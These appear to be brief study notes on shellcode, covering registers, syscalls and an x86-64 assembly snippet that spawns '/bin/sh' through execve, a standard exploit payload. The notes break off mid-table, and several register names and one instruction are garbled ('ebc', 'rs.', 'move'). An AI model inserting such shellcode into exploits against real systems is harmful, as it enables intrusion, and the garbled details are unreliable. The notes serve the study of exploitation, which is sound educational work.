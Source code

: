 # Shell Code

What is it? -> it is machine code that returns a remote shell when executed (also has been extended to include any byte that inserted into an exploit to accomplish a task)

# 32 bit Architecture 

Only has 8 registers

ebc eax edx esi edi ebp

sysenter

generally, syscall will only change eax

# 64 bit Architecture

rax rdi rs. rdx r10 r8 r9

syscall

generally, syscall will only change rax (r11 and rcx are clobered by syscall, which is why we don't use them)

	ifndef RAX_IS_ZERO
		xor	rax, rax
	endif
		push	rax
		move	rdi, '//bin/sh'
		push	rdi
		mov	rdi, rsp
		push	rax
		mov	rdx, rsp
		push	rdi
		mov	rsi, rsp
		mov	al, LINUX_SYS_execve
		syscall

Now to create shellcode

	rax	rdi		rs.	rdx	r10	r8	r9
	0	'//bin/sh'	 
